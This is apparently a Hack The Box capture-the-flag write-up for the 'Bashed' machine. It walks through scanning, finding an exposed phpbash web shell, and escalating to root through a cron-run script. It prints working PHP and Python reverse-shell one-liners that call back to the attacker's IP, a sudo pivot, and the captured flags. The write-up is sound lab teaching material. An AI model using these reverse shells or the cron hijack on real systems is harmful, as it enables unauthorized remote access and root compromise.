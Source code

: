 # Bashed

### Challenge: FullPWN

### Tools: Nmap, msfexploit

Running Nmap we get port 80 running Apache 2.4.18. Curl did not give anything extra and an Nmap scripot scan did not find anything. We did get some luck with Dirb and we can check that part out.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.64.44
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:02 BST
Nmap scan report for 10.129.64.44
Host is up (0.0048s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=1%CU=34558%PV=Y%DS=2%DC=T%G=Y%TM=62FA6E1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   5.54 ms 10.10.14.1
2   4.90 ms 10.129.64.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```
```console
└──╼ [★]$ curl -I http://10.129.64.44
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 16:04:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
ETag: "1e3f-55f8bbac32f80"
Accept-Ranges: bytes
Content-Length: 7743
Vary: Accept-Encoding
Content-Type: text/html
```

```console
└──╼ [★]$ dirb http://10.129.64.44

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug 15 17:06:04 2022
URL_BASE: http://10.129.64.44/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.64.44/ ----
==> DIRECTORY: http://10.129.64.44/css/                                        
==> DIRECTORY: http://10.129.64.44/dev/                                        
==> DIRECTORY: http://10.129.64.44/fonts/                                      
==> DIRECTORY: http://10.129.64.44/images/                                     
+ http://10.129.64.44/index.html (CODE:200|SIZE:7743)                          
==> DIRECTORY: http://10.129.64.44/js/                                         
==> DIRECTORY: http://10.129.64.44/php/                                        
+ http://10.129.64.44/server-status (CODE:403|SIZE:300)                        
==> DIRECTORY: http://10.129.64.44/uploads/                                    
                                                                               
---- Entering directory: http://10.129.64.44/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/uploads/ ----
+ http://10.129.64.44/uploads/index.html (CODE:200|SIZE:14)                    
                                                                               
-----------------
END_TIME: Mon Aug 15 17:06:36 2022
DOWNLOADED: 9224 - FOUND: 3
```
The /dev directory looks the most interesting and digging slightly further takes us to http://10.129.64.44/dev/phpbash.php

Easy day. We can already navigate to and grab the user flag. Since we have a php bash lets create a reverse shell with it.

```console
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
```
```console
www-data@bashed
:/home/arrexel# cat user.txt

343cfcbe7fd570aa1a5218f0db7e0946
```
We set up the listener and run the script and we are in.

```console
bashed:/# php -r '$sock=fsockopen("10.10.14.93",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:33962.
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We still can't do anything different but running sudo -l shows that scriptmanager can be used. Note: running the reverse shell ro use script manager is required since the limited php shell from the webpage would not allow the sudo command with scriptmanager.

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ ls
```
Awesome now we are scriptmanager but we cannot access the root directory yet. There is an interesting directory labeled /scripts. This directory has a python script and a text file. My first assumption was that I could create a script to read the root.txt flag but my scripting is limited. I noticed that the .txt and .py were updating at the same time which suggests a cronjob being ran by root. With this we have our last step.

```console
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
```console
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Aug 15 09:37 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 Aug 15 09:55 sol.py
-rw-r--r--  1 scriptmanager scriptmanager  110 Aug 15 10:19 test.py
-rw-r--r--  1 root          root            12 Aug 15 10:19 test.txt
```
We are going to set up 1 last reverse shell in order to gain root. We are going to make our own reverse shell script taken from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

We are going to use the python reverse shell since its being executed in a python script and set up our listener to catch it. After a minute or so the cronjob executes the script from the directory and we get our reverse shell and the flag!!

```console
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py
<);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py  
```

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:46748.
# ls
ls
sol.py	test.txt
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
353dbd73edc7c3073b68d735599731c9
```
WHOOOOOO!!!!
